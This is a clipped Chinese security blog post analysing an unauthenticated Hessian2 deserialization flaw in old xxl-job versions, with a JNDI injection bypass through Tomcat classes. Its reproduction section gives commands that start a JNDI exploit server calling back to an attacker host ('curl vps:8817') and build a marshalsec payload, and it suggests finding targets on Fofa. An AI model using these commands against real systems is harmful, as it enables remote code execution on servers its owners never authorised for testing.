 ```yaml
---
title: xxl-job api 未授权 Hessian2 反序列化
url: https://xz.aliyun.com/t/8456?time__1311=n4%2BxuDgDBDyDnDfxYqwxBqDwp0YeHe%2Bweh%2B%2BD&alichlgref=https%3A%2F%2Fwww.google.com%2F
clipped_at: 2024-03-26 17:39:14
category: default
tags: 
 - xz.aliyun.com
---
```


# xxl-job api 未授权 Hessian2 反序列化

## 前言

​ 最新版有师傅已经给出 POC, 配置执行器，新建任务对关联服务器执行 `shell` 命令，但是比较蛋疼的是可能关联服务在内网，无法直接从公网攻击.

​ 链接：[https://github.com/jas502n/xxl-job](https://github.com/jas502n/xxl-job)

**本文主要针对 xxl-job 低版本 api 接口存在 Hessian2 反序列化，可以直接攻击调度中心.**

## 测试环境

xxl-job 2.0.2

Jdk: 8u191

Linux

## JobApiController#api

在 version`<`2.0.2 版本中，`JobApiController#api` 中调用 `invokeAdminService` 处理请求数据。且设置了造成 `@PermessionLimit(limit=false)` 访问该接口不需要鉴权

[![](assets/1711445954-4269187cb9af1bbb828ee9d8bcee8c89.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201029025631-4af6c5bc-194f-1.png)

直接单步跟进 `com.xxl.job.admin.core.schedule.XxlJobDynamicScheduler.invokeAdminService`\=>`com.xxl.rpc.remoting.net.impl.servlet.server.ServletServerHandler.handle` 方法中，调用 `parseRequest` 处理 `request` 对象

[![](assets/1711445954-03f9c8aff25bdb0bcf629cab2232712d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201029025650-55f31146-194f-1.png)

继续跟进，调用 `readBytes` 读取请求中的数据，最终是调用 `Hessian2` 反序列化 `requestBytes`.

[![](assets/1711445954-ca5085dc401189a5bbb70eebfea3cbea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201029025700-5c19bed0-194f-1.png)

## JNDI Bypass

参考：[https://www.veracode.com/blog/research/exploiting-jndi-injections-java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)

在测试时候总需要一个比较稳定的 POC，高版本 JDK 对 JNDI 注入进行限制即限制远程类加载，表现在如 RMI/LDAP 服务收到请求，HTTP 服务无响应.

绕过的思路是：在 CLASSPATH 中找到工厂类，对引用的 Reference 属性添加危险方法或属性，该危险方法也需要在 CLASSPATH 中存在.

原文作者利用 Apache Tomcat 中的 `org.apache.naming.factory.BeanFactory` 类，结合 `javax.el.ELProcessor` 执行任意代码。赶巧的是 `xxl-job` 基于 `Spring` 框架，底层是利用 `tomcat` 服务器.

[![](assets/1711445954-f5d93ea210fb5c62c3ed636cb95d8462.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201029030207-1369fd66-1950-1.png)

## 复现

现成的 JNDI Bypass 利用工具已经有师傅写好，可以直接拿来用

[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

```plain
# 启动服务
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -A 0.0.0.0 -C "curl vps:8817"

# 生成payload
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Hessian2 SpringAbstractBeanFactoryPointcutAdvisor [rmi服务] > ~/Desktop/test13.ser
```

Fofa 上找个 xxl-job, 具体指纹访问 api 会有如下报错.

[![](assets/1711445954-b4a3bb3cdc5d1950c433ff67bd333450.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201029025728-6d19d846-194f-1.png)

利用如下

[![](assets/1711445954-72cfe66e1fe2348f498987fbfc41325f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201029030009-ccd88930-194f-1.png)

# 参考链接

[https://www.xuxueli.com/xxl-job/](https://www.xuxueli.com/xxl-job/)

[https://github.com/welk1n/JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit)

[https://www.veracode.com/blog/research/exploiting-jndi-injections-java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
